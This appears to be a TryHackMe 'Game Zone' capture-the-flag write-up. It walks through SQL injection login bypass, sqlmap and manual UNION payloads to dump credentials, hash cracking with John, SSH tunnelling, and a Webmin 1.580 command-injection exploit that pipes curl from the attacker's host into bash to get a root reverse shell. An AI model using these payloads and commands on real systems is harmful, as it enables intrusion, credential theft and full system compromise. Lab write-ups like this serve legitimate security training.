





#tryhackme #SQL-Injection #mysql #login-bypass #sqlmap #hash-identifier #john #whatweb #searchsploit #httpie #nmap #linux 

## Obtain access via SQLi
---
Login form looks super suspicious

Try payload `admin' or 1=1 -- -`

> Can try another payload : `' or 1=1 -- -`



Login success, redirected to `/portal.php`

Single quote test, found SQLI



## Using SQLMap
---

Copy the post request from burp

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ cat search.req
POST /portal.php HTTP/1.1
Host: 10.10.233.188
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://10.10.233.188
Connection: close
Referer: http://10.10.233.188/portal.php
Cookie: PHPSESSID=hfp4m5d57ch4asnstemhgek4l3
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

searchitem=1
```

It's using **apache** and **php**, they are usually bundled with **mysql** 


Specify `--dbms mysql` to filter unnecessary payloads to make sqlmap faster

```bash
sqlmap -r search.req -p searchitem --dbms mysql --batch --dbs
```


### Questions

#### In the users table, what is the hashed password?

```bash
sqlmap -r search.req -p searchitem --dbms mysql --batch -D db --tables
```

```bash
Database: db
[2 tables]
+-------+
| post  |
| users |
+-------+
```

```bash
sqlmap -r search.req -p searchitem --dbms mysql --batch -D db -T users --columns
```

```bash
Database: db
Table: users
[2 columns]
+----------+------+
| Column   | Type |
+----------+------+
| pwd      | text |
| username | text |
+----------+------+
```

```bash
sqlmap -r search.req -p searchitem --dbms mysql --batch -D db -T users --dump
```

```bash
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```

#### What was the username associated with the hashed password?

> agent47

#### What was the other table name?

> post

## MySQL Injection Manually (Union Based)
---

> [Portswigger SQLI Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### Get Column Length in current table

```bash
'UNION SELECT ALL NULL,NULL -- -
```


success on 3 columns

```bash
'UNION SELECT ALL NULL,NULL,NULL -- -
```


### Identify DMBS

| DBMS | Function |
|---|---|
|Oracle|`SELECT banner FROM v$version   SELECT version FROM v$instance   `|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|
|MySQL|`SELECT @@version`|

```bash
'UNION SELECT ALL NULL,NULL,@@version -- -
```


### Get current database's name

```bash
'UNION SELECT ALL NULL,NULL, database() -- - 
```



### Get databases

```bash
'UNION SELECT all NULL,NULL, schema_name from information_schema.schemata -- -
```


### Get tables from database

```bash
'UNION SELECT ALL NULL,NULL,grouop_concat(table_name) FROM information_schema.tables WHERE table_schema = 'db' -- -
```


### Get columns from table

```bash
'UNION SELECT ALL NULL,NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' and table_schema = 'db' -- -
```



### Get data from table

```bash
'UNION SELECT ALL NULL,NULL, group_concat(username,":",pwd) from db.users -- -
```


## Cracking a password with JohnTheRipper
---

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ hash-identifier ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

Possible Hashs:
[+] SHA-256
[+] Haval-256
```

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ john user.hash --wordlist=/opt/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 SSE2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=5
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:00 DONE (2023-06-18 02:25) 5.000g/s 14540Kp/s 14540Kc/s 14540KC/s vivula..vero24jm
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

```bash
agent47@gamezone:~$ exit
logout
Connection to 10.10.233.188 closed.

┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ sshpass -p videogamer124 ssh -o "StrictHostKeyChecking no" agent47@10.10.233.188
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Sun Jun 18 01:37:40 2023 from 10.11.19.145
agent47@gamezone:~$ id
uid=1000(agent47) gid=1000(agent47) groups=1000(agent47),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```

## Exposing services with reverse SSH tunnels
---

```bash
agent47@gamezone:~$ ss -ltnp
State       Recv-Q Send-Q                                                           Local Address:Port                                                                          Peer Address:Port
LISTEN      0      128                                                                          *:10000                                                                                    *:*
LISTEN      0      128                                                                          *:22                                                                                       *:*
LISTEN      0      80                                                                   127.0.0.1:3306                                                                                     *:*
LISTEN      0      128                                                                         :::80                                                                                      :::*
LISTEN      0      128                                                                         :::22                                                                                      :::*
```

The port `10000` is not accessible from outside

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ sudo nmap -sA 10.10.233.188 -p 10000 -vv -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-18 02:53 EDT
Initiating Parallel DNS resolution of 1 host. at 02:53
Completed Parallel DNS resolution of 1 host. at 02:53, 0.01s elapsed
Initiating ACK Scan at 02:53
Scanning 10.10.233.188 [1 port]
Completed ACK Scan at 02:53, 0.34s elapsed (1 total ports)
Nmap scan report for 10.10.233.188
Host is up, received user-set (0.28s latency).
Scanned at 2023-06-18 02:53:08 EDT for 0s

PORT      STATE      SERVICE          REASON
10000/tcp unfiltered snet-sensor-mgmt reset ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
           Raw packets sent: 1 (40B) | Rcvd: 1 (40B)
```

Forward `127.0.0.1:10000` from remote host to local `127.0.0.1:10000`

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ sshpass -p videogamer124 ssh -o "StrictHostKeyChecking no" agent47@10.10.233.188 -L 10000:127.0.0.1:10000
```

Check port

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ sudo ss -ltnp|grep 10000
LISTEN 0      128             127.0.0.1:10000      0.0.0.0:*    users:(("ssh",pid=220946,fd=5))
LISTEN 0      128                 [::1]:10000         [::]:*    users:(("ssh",pid=220946,fd=4))
```

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ whatweb http://127.0.0.1:10000
http://127.0.0.1:10000 [200 OK] Cookies[testing], Country[RESERVED][ZZ], HTTPServer[MiniServ/1.580], IP[127.0.0.1], Script[text/javascript], Title[Login to Webmin]
```

> [!NOTE] Trick to port forwarding from CLI
Press enter in SSH session and input `~C` then a `ssh>` cmd line will pop up
>
> 
> 
> Send `-L 10000:127.0.0.1:10000`
> 
> 

## Privilege Escalation
---

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ searchsploit webmin 1.580
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)                                                                                                          | unix/remote/21851.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                                                                                  | linux/webapps/47330.rb
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Check the exploit code

```bash
searchsploit -x 21851
```


Needs to login first

Login with creds gathered previously from mysql database



Only need to send a get request to RCE


Start http server with reverse shell script written in `index.html`

```bash
┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ python3 -m http.server 80
```

Start reverse shell listener

```bash
rlwrap -r -f . nc -nlvp 1111
```

Get the `sid` from cookie and use `httpie` for auto url encode

```bash
http 'http://127.0.0.1:10000/file/show.cgi/bin/123aaa|curl 10.11.19.145|bash|' 'Cookie: sid=840c6c901d6bd7af92b0b4b60885fd7f'
```

```bash
┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.233.188] 50842
bash: cannot set terminal process group (1246): Inappropriate ioctl for device
bash: no job control in this shell
root@gamezone:/usr/share/webmin/file/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@gamezone:/usr/share/webmin/file/# cat /root/root.txt
cat /root/root.txt
a4b945830144bdd71908d12d902adeee
root@gamezone:/usr/share/webmin/file/#
```